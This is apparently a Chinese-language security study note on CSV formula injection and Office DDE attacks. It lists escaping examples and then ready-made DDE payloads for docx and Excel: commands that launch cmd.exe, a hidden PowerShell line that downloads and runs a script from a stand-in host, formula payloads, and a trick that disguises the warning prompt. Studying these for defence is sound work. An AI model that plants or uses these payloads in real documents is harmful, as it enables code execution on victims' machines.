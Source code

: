 | 输入            | 转义后               |
| ------------- | ----------------- |
| =1+2”;=1+2    | "'=1+2"";=1+2"    |
| =1+2'" ;,=1+2 | "'=1+2'"" ;,=1+2" |

## Office DDE

引文第一篇比较详细地说明了如何制作一个包含DDE payload的恶意docx文件

引文第二篇详细地描述了DDE漏洞相关的历史，以及缓解措施。并讲述了当时发现的在OneNote中引用Excel表格会出现DDE攻击，且该攻击可以绕过Excel本身设置的一些DDE保护措施

引文第六篇描述了在Excel power query中实现DDE攻击

### 攻击手法

主要的攻击手法是插入DDE相关的域代码，入口见引文第一篇

#### 基本payload

使用DDEAUTO，默认打开文档时会更新DDE引用的链接

```
# 代码执行
{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"}

# 恶意文件下载
{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
```

使用DDE则不会默认更新，此时需要更改docx文件的配置。具体将.docx文件重命名为.zip文件，导航到word/settings.xml，插入该XML内容

```
<w:updateFields w:val="true"/>
```

使用`= + - @`等运算符同样会触发命令执行

```
=cmd|' /c calc'!A0
@SUM(cmd|' /c calc'!A0)
```

#### 进阶payload

可以修改警示弹窗的文本内容

```
=MSEXCEL|'\..\..\..Windows\System32\cmd.exe /c calc.exe'!
```

此时会显示要打开的是MSEXCEL.exe而不是cmd.exe

DDE协议中除了DDE和DDEAUTO外可用的关键字还有（来自引文第四篇，见微软文档[[MS-OI29500]: DDE | Microsoft Learn](https://learn.microsoft.com/en-us/openspecs/office_standards/ms-oi29500/a2c3a25a-1dba-40da-be7a-47cf63c78d55)）

```
GLOSSARY
IMPORT
INCLUDE
SHAPE
DISPLAYBARCODE
MERGEBARCODE
```
